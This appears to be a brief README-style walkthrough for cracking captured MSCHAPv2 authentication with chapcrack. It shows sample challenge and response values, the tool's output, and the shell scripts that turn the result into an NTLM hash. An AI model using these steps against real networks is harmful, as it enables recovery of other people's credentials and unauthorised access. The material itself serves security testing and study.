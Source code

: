 run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack

```python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad ```


results look like this
``` Cracking K3........
                     C1 = c4efda98b2c14ac2
                     C2 = f710c94d151e9fdf
                     C3 = b031f42762ec31ad
                      P = 44805811a0e2094f
                     K3 = 5f910000000000
CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=
``` 

copy the cloudcracker submission without the $99$
https://hashcat.net/forum/thread-5912.html

run chapcrack-des.sh
``` chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=```

run
```DES-ntlm.sh```

run
```des-to-ntlm.sh```
